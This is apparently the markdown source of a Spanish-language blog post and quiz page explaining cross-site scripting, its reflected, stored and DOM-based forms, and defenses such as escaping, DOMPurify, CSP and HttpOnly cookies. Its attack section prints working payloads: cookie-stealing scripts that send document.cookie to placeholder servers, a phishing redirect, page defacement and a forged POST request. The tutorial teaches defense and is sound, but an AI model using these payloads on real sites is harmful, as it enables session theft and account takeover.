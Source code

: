 ```yaml
---
title: ¿Qué es Cross-site scripting (XSS)?
comments: true
image: /assets/img/xss.jpeg
layout: post-quiz
quiz: quiz-xss
questions: quiz-xss.yml
---
```


# ¿Qué es Cross-site scripting (XSS)?

**Cross-Site Scripting (XSS)** es una vulnerabilidad de seguridad que permite a un atacante inyectar código malicioso (generalmente JavaScript) en una aplicación web. Este código luego es ejecutado por el navegador de otros usuarios que visitan esa página.  
A diferencia de otros ataques, XSS no afecta directamente al servidor, sino que compromete la seguridad del usuario final que interactúa con el sitio vulnerable.

Esta falla ocurre cuando una aplicación **no valida o escapa correctamente la entrada de datos del usuario**, permitiendo que scripts se inserten dentro del HTML o JavaScript de una página web.

# ¿Qué puedes hacer si encuentras XSS?

Si logras inyectar código con éxito, estas son algunas de las acciones que podrías llevar a cabo durante una prueba de penetración, junto con sus ejemplos prácticos:

## 1. � **Robar cookies o tokens de sesión**

Puedes capturar las cookies del usuario víctima y enviártelas a tu servidor, obteniendo acceso a su sesión si no están correctamente protegidas.

**Payload básico**:
```bash
<script>
  new Image().src = "http://paginaweb.com/log.php?cookie=" + document.cookie;
</script>
```

#### 2. � **Redirigir a la víctima a un sitio falso (phishing)**

También puedes redirigir a la víctima a una página controlada por ti, simulando una página de inicio de sesión o captura de datos.

**Payload**:
```bash
<script>
  window.location.href = "https://phishing.ejemplo.com";
</script>
```

#### 3. � **Modificar el contenido de la página (defacement o engaño visual)**

Al inyectar scripts puedes reemplazar elementos del DOM para mostrar contenido falso.

**Ejemplo**:
```bash
<script>
  document.body.innerHTML = "<h1>Su cuenta ha sido suspendida</h1><p>Ingrese sus datos para reactivarla:</p><form>...</form>";
</script>
```

#### 4. � **Realizar acciones en nombre del usuario (CSRF-like)**

Puedes ejecutar llamadas internas que afectan la cuenta del usuario logueado, como cambiar su correo, contraseña o transferir dinero.

**Ejemplo**:
```bash
<script>
  fetch("/cambiar-correo", {
    method: "POST",
    body: new URLSearchParams("correo=test@test.com"),
    credentials: "include"
  });
</script>
```

## ¿Cómo ocurre un XSS?

Identificando puntos en los que una aplicación web **refleja datos del usuario sin sanitizarlos ni escapar correctamente su contenido**. Existen varias formas de XSS, pero todas se basan en lo mismo: la aplicación **confía demasiado en lo que el usuario le entrega**.

### � 1. **XSS Reflejado (Reflected XSS)**

Ocurre cuando envías un payload malicioso en una URL o formulario, y la aplicación lo refleja directamente en la respuesta sin validarlo.

**Ejemplo típico:**
```url
https://victima.com/buscar?q=<script>alert('XSS')</script>
```

Si el sitio muestra el valor  directamente en la página, podrías ver algo como:
```html
Resultados para: <script>alert('XSS')</script>
```
Esta es la forma más común de phishing o explotación directa desde enlaces enviados por correo o mensajería.

### � 2. **XSS Persistente (Stored XSS)**

Aquí, el código malicioso se **almacena en el servidor**, por ejemplo, en un comentario, perfil o mensaje, y se ejecuta cada vez que otro usuario carga esa página.

**Ejemplo de payload en un comentario:**
```html
<script>fetch('http://tu-servidor.com/cookie?c=' + document.cookie)</script>
```
Una vez guardado, cualquier usuario que vea ese comentario ejecutará el script.

### � 3. **XSS DOM-Based**

Este XSS se da cuando el JavaScript del cliente manipula el DOM en base a datos de la URL, el hash o cualquier input sin sanitizar.

**Ejemplo:**
```javascript
let nombre = location.hash.substring(1);
document.getElementById("saludo").innerHTML = "Hola, " + nombre;
```

Con esta URL:
```url
https://victima.com/#<script>alert("DOM XSS")</script>
```
No es visible en el HTML del servidor, sino que se ejecuta completamente en el cliente. Es común en SPAs y aplicaciones modernas.

## � ¿Cómo proteger una web contra XSS?

Para mitigar ataques XSS, el objetivo principal es **impedir que scripts maliciosos lleguen al navegador** o, si llegan, que no puedan ejecutarse.

### ✅ 1. **Escapar y sanitizar entradas del usuario**

**Nunca** confíes en la entrada del usuario. Escapa o sanitiza todo lo que pueda ser interpretado como HTML, JavaScript o atributos.

**Ejemplo en HTML:**
```html
function escaparHTML(texto) {
  return texto
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#039;");
}
```
Recomendado en cualquier campo que luego se muestre en el DOM (comentarios, nombres de usuario, etc.).

### � 2. **Utilizar funciones de sanitización**

Si necesitas permitir cierto HTML (por ejemplo en blogs o foros), usa librerías de sanitización para filtrar etiquetas peligrosas.

**Ejemplo con DOMPurify (JavaScript):**
```javascript
let limpio = DOMPurify.sanitize(entradaUsuario);
document.getElementById("contenido").innerHTML = limpio;
```
DOMPurify limpia etiquetas peligrosas como `<script>`, eventos como `onerror`, e inyecciones en atributos.

### � 3. **Implementar políticas de seguridad con CSP (Content Security Policy)**

Una CSP bien configurada bloquea la ejecución de scripts no autorizados.

**Ejemplo de cabecera HTTP:**
```http
Content-Security-Policy: default-src 'self'; script-src 'self';
```
Esto indica que **solo los scripts cargados desde el mismo dominio** están permitidos, y bloquea scripts inyectados desde usuarios o externos.

### � 4. **Evitar `innerHTML`, `document.write`, y similares**

Estas funciones insertan contenido directamente en el DOM y son una vía directa para ejecutar código malicioso si no están bien controladas.

**Mejor usar:**
```javascript
element.textContent = entradaUsuario;
```
`textContent` no interpreta HTML ni scripts.

### � 5. **Marcar cookies como `HttpOnly` y `Secure`**

Aunque no evita XSS en sí, impide que el atacante robe cookies de sesión mediante `document.cookie`.

**Ejemplo en seteo de cookies:**
```http
Set-Cookie: sessionid=abc123; HttpOnly; Secure; SameSite=Strict
```
`HttpOnly` evita acceso desde JavaScript, y `Secure` asegura que solo viajen por HTTPS.

### � 6. **Validar entradas en el servidor y cliente**

Aunque la validación del cliente puede mejorarse la UX, **la validación fuerte debe hacerse siempre en el servidor**. Rechaza cualquier entrada que no cumpla con lo esperado (números, correos, etc.).

